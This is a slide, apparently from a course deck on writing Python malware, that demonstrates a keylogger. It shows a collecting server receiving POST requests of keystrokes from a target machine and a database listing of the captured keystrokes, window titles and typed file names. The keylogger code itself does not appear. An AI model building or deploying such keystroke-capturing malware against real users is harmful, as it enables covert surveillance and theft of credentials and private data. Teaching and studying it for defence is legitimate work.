

Python Malwares (cont.)
Writing a Keylogger (cont.)
Starting to type anything on the target user’s computer will show some requests coming from the target:
$ sudo python keylogger_server.py
...
192.168.10.192 - - [15/Dec/2021 21:52:09] "POST /add_keylogs HTTP/1.1" 200 -
192.168.10.192 - - [15/Dec/2021 21:52:29] "POST /add_keylogs HTTP/1.1" 200 -
192.168.10.192 - - [15/Dec/2021 21:52:39] "POST /add_keylogs HTTP/1.1" 200 -
192.168.10.192 - - [15/Dec/2021 21:52:49] "POST /add_keylogs HTTP/1.1" 200 -
If we use the database module to list the database, we will see few entries!
$ python keylogger_database.py --show-keylogs
1 - 192.168.10.192 - firefox.exe - 6200 - Mozilla Firefox - h e l l o [Space] t h e r e , [Space]
2 - 192.168.10.192 - Explorer.EXE - 624 - share - [Back] [Back] s e c r e t . t x t
3 - 192.168.10.192 - firefox.exe - 796 - Ghostly Kisses - Stay (Lyrics Video) - YouTube � Mozilla Firefox - [Lshift] I [Space] l i
4 - 192.168.10.192 - firefox.exe - 796 - Ghostly Kisses - Stay (Lyrics Video) - YouTube � Mozilla Firefox - k e [Space] t h i s [Space] s o n g
150